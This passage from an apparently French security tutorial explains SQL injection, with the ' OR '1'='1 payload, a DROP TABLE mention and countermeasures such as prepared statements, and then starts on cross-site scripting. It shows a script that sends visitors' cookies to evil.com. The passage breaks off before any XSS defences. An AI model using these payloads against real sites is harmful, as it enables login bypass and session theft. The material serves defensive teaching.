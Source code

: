 ### 2. Ce que fait l’attaquant
Il saisit dans le champ `username` une valeur spéciale :  
`' OR '1'='1`  
La requête devient toujours vraie et retourne tous les utilisateurs.

### 3. Conséquence
- Contournement d’authentification.  
- Extraction ou modification de données sensibles.  
- Destruction de tables si l’attaquant injecte un `DROP TABLE`.

### 4. Pourquoi c’est possible
- Les entrées utilisateur sont directement insérées dans la requête SQL.  
- Pas de séparation entre **code SQL** et **données**.  

### 5. Contre-mesures

#### ✅ Requêtes préparées (paramétrées)
- **Comment ça marche** : la requête SQL est compilée avec des “placeholders” (`?` ou `:param`). Les données sont envoyées séparément.  
- **Pourquoi ça protège** : même si l’utilisateur entre du SQL malveillant, il est traité comme une simple donnée, pas comme du code.

#### ✅ ORM ou Query Builder fiable
- **Comment ça marche** : génère les requêtes en séparant toujours les données des instructions.  
- **Pourquoi ça protège** : réduit le risque de concaténation dangereuse.

#### ✅ Validation et échapper les entrées
- Vérifier les types attendus (ex. un `id` doit être un entier).  
- Échapper les caractères spéciaux.  
- **Pourquoi ça protège** : limite les possibilités d’injection non prévues.

---

## 2. Cross-Site Scripting (XSS)

### 1. Situation de départ
Une application affiche des commentaires d’utilisateurs sans filtrage.  

### 2. Ce que fait l’attaquant
Il poste un commentaire :  
`<script>document.location='http://evil.com/steal?c='+document.cookie</script>`

### 3. Conséquence
- Le navigateur des victimes exécute le script.  
- Vol de cookies/session.  
- Redirection vers des pages malveillantes.

### 4. Pourquoi c’est possible
- Le navigateur n’a aucun moyen de savoir si un script affiché vient du site ou d’un utilisateur malveillant.  
- L’application ne filtre pas ou n’échappe pas les entrées.  
